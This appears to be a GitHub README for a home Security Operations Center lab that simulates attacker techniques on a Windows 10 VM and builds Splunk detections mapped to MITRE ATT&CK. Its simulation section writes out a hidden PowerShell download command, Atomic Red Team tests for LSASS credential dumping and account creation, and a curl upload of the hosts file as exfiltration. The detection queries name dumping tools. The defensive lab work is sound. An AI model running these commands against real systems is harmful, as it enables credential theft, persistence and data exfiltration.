

# 🛡️ Home SOC & Threat Detection Lab

**An end-to-end, hands-on Security Operations Center (SOC) lab built at home — deploying a SIEM, hardening an endpoint, ingesting telemetry, and engineering detections mapped to the MITRE ATT&CK framework.**

> Built by Przemyslaw Wierzbicki — aspiring SOC Analyst

---

## 📋 Project Overview

| | |
|---|---|
| **SIEM Platform** | Splunk Enterprise (Ubuntu Server) |
| **Endpoint Monitored** | Windows 10 |
| **Log Transport** | Splunk Universal Forwarder |
| **Endpoint Telemetry** | Sysmon 15.x |
| **Framework** | MITRE ATT&CK |
| **Virtualization** | Oracle VirtualBox (isolated host-only network) |
| **Status** | 🚧 Actively in progress — see [Roadmap](#-roadmap) |

---

## 📐 Architecture & Topology



- **Adapter 1:** Host-Only network — isolated lab communication
- **Adapter 2:** NAT — internet access for updates/tooling

---

## 📁 Repository Structure

```
soc-detection-lab/
├── README.md
├── docs/           # notes, lessons learned, findings
├── rules/          # SPL detection rules / Sigma rules
├── samples/        # sample logs, sample malicious command lines
└── scripts/        # setup / config scripts (inputs.conf, sysmonconfig.xml, etc.)
```

---

## 🚀 Implementation Progress

- ✅ **Phase 1 — SIEM Deployment**
  Deployed Splunk Enterprise on Ubuntu, management UI on port 8000, receiver enabled on port 9997.

- ✅ **Phase 2 — Endpoint Hardening & Monitoring**
  Deployed Sysmon 15.x on the Windows 10 target with a modular config; verified events in `Microsoft-Windows-Sysmon/Operational`.

- ✅ **Phase 3 — Telemetry Ingestion**
  Deployed Splunk Universal Forwarder, configured `inputs.conf` to forward Application/Security/System/Sysmon logs. Validated pipeline end-to-end in Splunk (`index=main`).

- 🔄 **Phase 4 — Threat Simulation** *(in progress — 5 techniques simulated so far)*

- 🔄 **Phase 5 — Detection Engineering** *(in progress — 5 custom alerts + 1 multi-stage correlation search so far)*

- ⏳ **Phase 6 — Dashboards & Screenshots** *(planned)*

- ⏳ **Phase 7 — Incident Reports** *(planned)*

---

## ⚔️ Threat Simulation

**Technique simulated:** T1059.001 — Command and Scripting Interpreter: PowerShell

Executed an obfuscated PowerShell command that bypasses execution policy, hides the window, and downloads a file into a temp directory:

```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE' -OutFile '$env:TEMP\suspicious_script.ps1'"
```

---

**Technique simulated:** T1003.001 — OS Credential Dumping: LSASS Memory

Used Atomic Red Team to execute a credential-dumping test against the LSASS process, simulating techniques attackers use to extract cached credentials from memory:

```powershell
Invoke-AtomicTest T1003.001 -GetPrereqs
Invoke-AtomicTest T1003.001
```

---

**Technique simulated:** T1136.001 — Create Account: Local Account

Used Atomic Red Team to simulate an attacker creating a new local account for persistence:

```powershell
Invoke-AtomicTest T1136.001 -GetPrereqs
Invoke-AtomicTest T1136.001
```

---

**Technique simulated:** T1560.001 — Archive Collected Data: Archive via Utility

Used Atomic Red Team to simulate an attacker staging and compressing collected data using common archive utilities (7-Zip, WinRAR, WinZip, makecab) before exfiltration:

```powershell
Invoke-AtomicTest T1560.001 -GetPrereqs
Invoke-AtomicTest T1560.001
```

---

**Technique simulated:** T1567 — Exfiltration Over Web Service

Simulated an attacker exfiltrating a sensitive local file (`hosts`) by uploading it directly to a public third-party web API rather than to attacker-controlled infrastructure — a technique real attackers use to blend exfiltration traffic in with legitimate HTTPS/API traffic:

```powershell
curl.exe -F "file=@C:\Windows\System32\drivers\etc\hosts" https://reqres.in/api/users
```

This closes out the attack chain simulated so far: **Execution → Credential Access → Persistence → Collection → Exfiltration.**

---

## 🔍 Detection Engineering

**Threat hunting query — PowerShell execution (SPL):**

```spl
index=main EventCode=1 Image="*powershell.exe" (CommandLine="*-ExecutionPolicy Bypass*" OR CommandLine="*-WindowStyle Hidden*")
| table _time ComputerName User Image CommandLine ParentCommandLine
```

**Threat hunting query — LSASS credential dumping (SPL):**

```spl
index=main source="*Sysmon*" (CommandLine="*lsass*" OR CommandLine="*xordump*" OR CommandLine="*rdrleakdiag*")
| table _time host EventCode SourceImage TargetImage CommandLine
```

**Detection rule — LSASS access via Sysmon process creation / access events (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" lsass (EventCode=1 OR EventCode=10)
| table _time, host, EventCode, SourceImage, TargetImage, CommandLine
| sort _time
```

**Threat hunting query — local account creation (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 "net user"
| table _time, CommandLine, Image
```

**Detection rule — local account / group manipulation via Sysmon (SPL):**

```spl
index=main source="*Sysmon*" EventCode=1 (CommandLine="*net user*" OR CommandLine="*localgroup*")
| table _time host EventCode Image CommandLine User
```

**Threat hunting query — archive utility usage for data staging (SPL):**

```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 (CommandLine="*zip*" OR CommandLine="*7z*" OR CommandLine="*rar*" OR CommandLine="*makecab*")
| table _time, Image, CommandLine
```

**Threat hunting query — exfiltration via web upload (SPL):**

```spl
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=1 OR EventCode=3) (Image="*curl.exe" OR Image="*powershell.exe")
| table _time, host, EventCode, Image, CommandLine, DestinationIp, DestinationPort
```

| Rule | Technique | Trigger | Severity | Action |
|---|---|---|---|---|
| Suspicious Obfuscated PowerShell Execution | T1059.001 | `Number of Results > 0` | High / Critical | Dashboard notification + event tagging |
| Suspicious LSASS Memory Access | T1003.001 | `Number of Results > 0` | Critical | Dashboard notification + event tagging |
| Suspicious Local Account / Group Manipulation | T1136.001 | `Number of Results > 0` | High | Dashboard notification + event tagging |
| Suspicious Archive Utility Usage (Data Staging) | T1560.001 | `Number of Results > 0` | Medium | Dashboard notification + event tagging |
| Suspicious Outbound File Upload (Exfiltration) | T1567 | `Number of Results > 0` | High | Dashboard notification + event tagging |

---

## 🔗 Multi-Stage Attack Correlation

Instead of relying on five isolated alerts, this correlation search ties the individual techniques together into a single detection: it tags every matching event with the attack stage it represents, then groups by host and user to flag any host that has shown **3 or more distinct stages of the attack chain** within the search window — a much stronger signal of an active, in-progress intrusion than any single alert firing on its own.

**Correlation search — multi-stage attack chain detection (SPL):**

```spl
index=main source="*Sysmon*" 
| eval attack_stage=case(
match(CommandLine, "(?i)-ExecutionPolicy Bypass|-WindowStyle Hidden"), "1. Execution(T1059.001)",
(match(CommandLine, "(?i)xordump|rdrleakdiag") OR (match(TargetImage,"(?i)lsass") AND EventCode=10)),
"2. Credential Access (T1003.001)",
match(CommandLine,"(?i)net user|localgroup"),"3. Persistence (T1136.001)",
match(CommandLine,"(?i)zip|7z|rar|makecab"),"4. Collection(T1560.001)",
match(Image, "(?i)curl\.exe|powershell\.exe") AND match(CommandLine, "(?i)reqres|http"), "5. Exfiltration(T1567)"
)
| where isnotnull(attack_stage)
| stats 
    dc(attack_stage) as stages_count,
    values(attack_stage) as stages_detected,
    min(_time) as first_seen,
    max(_time) as last_seen,
    values(CommandLine) as executed_commands
    by host, User
| where stages_count>=3
| eval attack_duration_sec=last_seen-first_seen
| convert ctime(first_seen) ctime(last_seen)
| table host,User, stages_count, stages_detected, attack_duration_sec, first_seen, last_seen, executed_commands
```

| Rule | Technique(s) Covered | Trigger | Severity | Action |
|---|---|---|---|---|
| Multi-Stage Attack Chain Detected | T1059.001, T1003.001, T1136.001, T1560.001, T1567 | `stages_count >= 3` for the same host/user | Critical | Immediate dashboard notification + incident escalation |

---

## 🗺️ MITRE ATT&CK Navigator Heatmap

*(Coming soon — a visual heatmap of all techniques simulated and detected in this lab, generated with the [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/).)*

<!-- Once generated, embed the exported SVG/PNG here, e.g.: -->
<!--  -->

---

## 🔑 Key Technical Findings

- Splunk's `index=main` retains forwarded events even if an attacker later tries to clear local Windows logs — centralized logging beats local tampering.
- Matching on both `-ExecutionPolicy Bypass` and `-WindowStyle Hidden` narrows results to genuinely suspicious PowerShell invocations rather than all PowerShell activity.
- LSASS credential dumping doesn't always show up as a clean process name — tools like `xordump` or `rdrleakdiag` are used to evade signature-based detection, so hunting on process access patterns (Sysmon EventCode 10, `TargetImage=lsass.exe`) is more resilient than blocking by filename alone.
- Local account creation via `net user` is a fast, low-noise way for an attacker to establish persistence — pairing the command-line string with `localgroup` catches both the account creation and the follow-up privilege escalation (adding the new account to an admin group).
- Data staging via archive utilities (7-Zip, WinRAR, WinZip, makecab) is a common precursor to exfiltration — because attackers can use any of several tools for the same goal, the detection needs to match on the *behavior* (compressing files into an archive) across multiple binaries rather than a single process name.
- Exfiltrating over a legitimate public web API (rather than attacker-owned infrastructure) is a realistic evasion technique — the traffic looks like normal HTTPS to an API endpoint, so detection has to rely on process-level context (an unusual process like `curl.exe` making an outbound connection, carrying a local file as form data) rather than domain reputation alone.
- A single alert can be a false positive, but a correlation search tying `eval`-tagged attack stages to `stats ... by host, User` turns isolated low/medium-confidence signals into a high-confidence, prioritized detection — this is the same escalation logic a SOC analyst uses when triaging multiple related alerts into one incident.
- *(More findings will be added as more techniques are tested.)*

---

## 🗺️ Roadmap

- [x] Simulate a credential access technique (T1003.001)
- [x] Simulate a persistence technique (T1136.001)
- [x] Simulate a collection technique (T1560.001)
- [x] Simulate an exfiltration technique (T1567) — completes a full attack chain
- [x] Build a correlation rule that fires when multiple attack-chain stages occur on the same host in a short window
- [ ] Simulate additional MITRE ATT&CK techniques (lateral movement, defense evasion, privilege escalation)
- [ ] Write 5–10 custom detection rules covering multiple tactics
- [ ] Generate a MITRE ATT&CK Navigator heatmap of techniques covered
- [ ] Build a Splunk dashboard for alert overview / MITRE coverage
- [ ] Capture real screenshots of alerts and dashboards
- [ ] Write 2–3 incident reports from real alert data (timeline, root cause, containment, lessons learned)
- [ ] Add a dedicated attacker machine (Kali) to the lab network for realistic network-based attacks

---

## 🛠️ Technologies Used

| Category | Technology |
|---|---|
| SIEM | Splunk Enterprise |
| Endpoint Detection | Sysmon 15.x |
| Log Transport | Splunk Universal Forwarder |
| Virtualization | Oracle VirtualBox |
| Framework | MITRE ATT&CK |
| OS — SIEM | Ubuntu Server |
| OS — Endpoint | Windows 10 |

---

## 👤 About

**Przemyslaw Wierzbicki** — building hands-on SOC/detection engineering skills through this home lab.

- 🐙 GitHub: [PoeticLinee](https://github.com/PoeticLinee)
- 💼 LinkedIn: [Przemysław Wierzbicki](https://www.linkedin.com/in/przemysław-wierzbicki-42b840424/)

---

## 📄 License

MIT License